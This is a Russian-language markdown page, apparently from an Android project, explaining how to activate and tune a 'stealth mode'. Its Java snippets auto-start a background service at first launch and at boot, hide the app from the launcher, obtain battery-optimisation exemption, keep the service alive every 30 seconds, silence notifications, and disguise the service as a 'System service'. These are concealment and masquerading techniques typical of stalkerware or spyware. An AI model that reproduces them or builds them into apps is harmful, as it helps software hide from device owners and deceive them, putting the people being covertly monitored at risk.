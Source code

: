 ## 🎯 Активация стелс режима

### 1️⃣ **Автоматическая активация**
```java
// При первом запуске приложения
StealthService.startStealthMode(context);

// Скрытие с рабочего стола
hideAppFromLauncher();

// Запрос исключения из оптимизации батареи  
requestBatteryOptimizationExemption();
```

### 2️⃣ **Ручная активация**
```java
// Через настройки приложения
Intent intent = new Intent(this, StealthService.class);
startForegroundService(intent);
```

### 3️⃣ **Активация при загрузке**
```java
// BootReceiver автоматически запускает при загрузке системы
@Override
public void onReceive(Context context, Intent intent) {
    StealthService.startStealthMode(context);
}
```

## 🔧 Настройка стелс параметров

### ⏱️ **Интервалы проверки**
```java
// Keep-alive каждые 30 секунд
handler.postDelayed(keepAliveRunnable, 30000);

// Задержка перед стартом после загрузки
handler.postDelayed(() -> startServices(), 5000);
```

### 📡 **Уведомления**
```java
// Минимальный приоритет уведомлений
.setPriority(NotificationCompat.PRIORITY_MIN)
.setSilent(true)
.setShowWhen(false)
```

### 🎭 **Маскировка**
```java
// Название как системная служба
.setContentTitle("Системная служба")
.setContentText("Фоновые процессы системы")
```
